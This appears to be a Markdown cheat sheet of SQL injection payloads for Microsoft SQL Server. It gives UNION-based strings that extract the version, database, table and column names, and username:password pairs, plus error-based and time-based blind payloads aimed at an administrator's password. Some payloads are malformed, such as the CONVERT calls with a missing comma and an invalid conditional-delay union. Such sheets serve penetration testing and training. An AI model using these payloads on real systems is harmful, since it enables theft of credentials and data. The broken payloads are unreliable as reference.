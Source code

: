 
### Microsoft SQL (MS SQL)

### Retreaving Database version

```mysql
SELECT @@version
```

**UNION SQLi Context**
```
' UNION SELECT NULL, @@version -- -
```

> **Note:** In UNION Statement we have to match the number of columns of first select statement so that's why we use one NULL in the payload.

### String Concatenation

```
'string1'+'string2'
```

```
SELECT username+password FROM users;
```

**In a UNION SQLi Context**

```
' UNION SELECT NULL,username+":"+password,NULL FROM users -- -
```

### Substring

```
SELECT SUBSTRING(password,2,1) FROM users 
```

**In UNION SQLi context**
```
' UNION SELECT SUBSTRING(password,2,1) FROM users -- -
```

### Comments

```
--comment
/*comment*/
```

### Database Contents

**List All Databases**
```
SELECT name FROM sys.databases
```

**In UNION MS SQLi**
```
' UNION SELECT NULL,name,NULL FROM sys.databases -- -
```

**List All Tables**
```
SELECT table_name FROM information_schema.tables
```

**In a UNION MS SQLi context**

```
' UNION SELECT table_name FROM information_schema.tables -- -
```

**List All Columns**
```
SELECT column_name FROM information_schema.columns WHERE table_name = 'demo'
```

**In UNION MS SQLi**
```
' UNION SELECT column_name FROM information_schema.columns WHERE table_name = 'TABLE NAME HERE' -- -
```

### Conditional Errors

```mysql
SELECT CASE WHEN LEN(password) = 3 THEN CONVERT(NVARCHAR 1/0) ELSE '' END FROM users WHERE username='administrator'
```

**In UNION MS SQLi**
```
' UNION SELECT NULL,NULL,CASE WHEN LEN(password)=FUZZ THEN CONVERT(NVARCHAR1/0) ELSE '' END FROM users WHERE username='administrator'
```

### Time delays

```
WAITFOR DELAY '0:0:10'
```

### Conditional Time delays

```
IF (SELECT LEN(password) FROM user WHERE username = 'Administrator') = 5 WAITFOR DELAY '0:0:10'
```

**In UNION MS SQLi**
```
' UNION SELECT NULL,NULL,(SELECT LEN(password) FROM user where username = 'Administrator') = FUZZ WAITFOR DELAY '0:0:5'
```
